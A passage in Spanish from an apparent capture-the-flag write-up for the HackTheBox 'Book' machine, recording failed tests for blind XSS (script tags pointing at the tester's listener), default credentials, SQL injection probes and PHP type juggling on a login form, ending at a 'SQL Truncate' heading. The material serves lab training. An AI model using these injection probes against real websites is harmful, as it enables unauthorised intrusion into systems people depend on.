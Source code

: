 No parece ser vulnerable en este caso.

En las paginas 
```bash
 /collections.php 
```
 y 
```bash
 /contact.php 
```
 vemos que las request necessitan ser validadas por otro usuario. Miramos si es vulnerable a un XSS

```bash
python3 -m http.server 80
```

y ponemos en los inputs de la web 

```bash
<script src="http://10.10.17.51/book" />
<script src="http://10.10.17.51/title" />
<script src="http://10.10.17.51/message" />
```

No parece ser vulnerable a XSS tampoco.

Miramos si podemos burlar el login. Nos desloggeamos y miramos lo que podemos hacer desde el panel de inicio de session.
Intentamos en el panel login poner usuarios por defecto.

```bash
email: admin@book.htb
password: admin
```

Vemos que el usuario admin existe pero la contraseña no es la buena.

Miramos si el panel de inicio de session es vulnerable a un **SQLI**. lo hacemos desde burpsuite.

```bash
email=admin@book.htb'&password=admin
email=admin@book.htb' and 1=1-- -&password=admin
email=admin@book.htb' and 1=1#&password=admin
email=admin@book.htb' or sleep(5)&password=admin
```

No parece que este panel sea vulnerable a **SQLI**.

Probamos si es vulnerable a **Type Juggling**.

```bash
email[]=admin@book.htb&password[]=admin
```

Tampoco parece ser vulnerable a un **Type Juggling**
## Vulnerability Assessment {-}

### SQL Truncate {-}
